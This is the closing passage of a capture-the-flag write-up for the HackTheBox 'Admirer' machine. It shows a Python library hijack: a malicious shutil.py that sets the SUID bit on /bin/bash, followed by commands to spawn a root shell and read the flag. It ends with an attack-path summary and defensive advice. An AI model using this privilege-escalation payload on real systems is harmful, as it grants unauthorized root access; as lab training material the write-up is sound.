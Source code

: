 The script internally calls `backup.py`, let´s see the code:

![[cat_backup.png]]

Inspecting `backup.py`, we see it imports the **`shutil`** library and uses the function `make_archive` so this opens the possibility of **Python library hijacking**.

### 4.2 Python Library Hijacking

We create a malicious `shutil.py`:

```python
import os
os.system("chmod u+s /bin/bash") 
```

Place it in `/tmp`, then execute the vulnerable backup process.  
Now `/bin/bash` has the SUID bit set:

```bash
ls -l /bin/bash
```

![[root_permissions.png]]

Spawn a root shell:

```bash
bash -p
whoami
cd /root/
cat root.txt
```

![[GitHub Documentation/EASY/HTB_Admirer_Writeup/screenshots1/root_flag.png]]

🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Directory Fuzzing** → Discovered sensitive files (`contacts.txt`, `credentials.txt`).  
2. **FTP Access** → Retrieved internal files and database credentials.  
3. **Adminer Exploitation** → Used a misconfiguration to extract further credentials.  
4. **SSH Access** → Logged in as `waldo`.  
5. **Python Hijack** → Escalated to root via malicious `shutil.py`.  

---
## Defensive Recommendations

- Restrict access to sensitive web directories.  
- Do not store plaintext credentials in web-exposed files.  
- Update or disable vulnerable tools like **Adminer**.  
- Run periodic audits for unnecessary scripts in `/opt`.  
- Enforce least privilege and disable SUID where not required.  
